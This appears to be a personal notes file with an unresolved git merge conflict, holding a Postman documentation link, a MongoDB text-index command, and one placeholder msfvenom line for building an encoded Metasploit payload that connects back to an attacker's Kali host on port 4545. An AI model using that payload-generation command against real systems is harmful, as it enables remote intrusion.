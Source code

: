 <<<<<<< Updated upstream
https://documenter.getpostman.com/view/20411215/UzXNUd1S
=======
https://documenter.getpostman.com/view/20411215/UzXNUd1S
msfvenom -p payload -a architecture --platform platform LHOST=Kali's_IP LPORT=4545 -e encoder_used -i count_of_encoding -f file_type -o output_path 
Create Index:
db.items.createIndex({name:"text",desc:"text"});
>>>>>>> Stashed changes
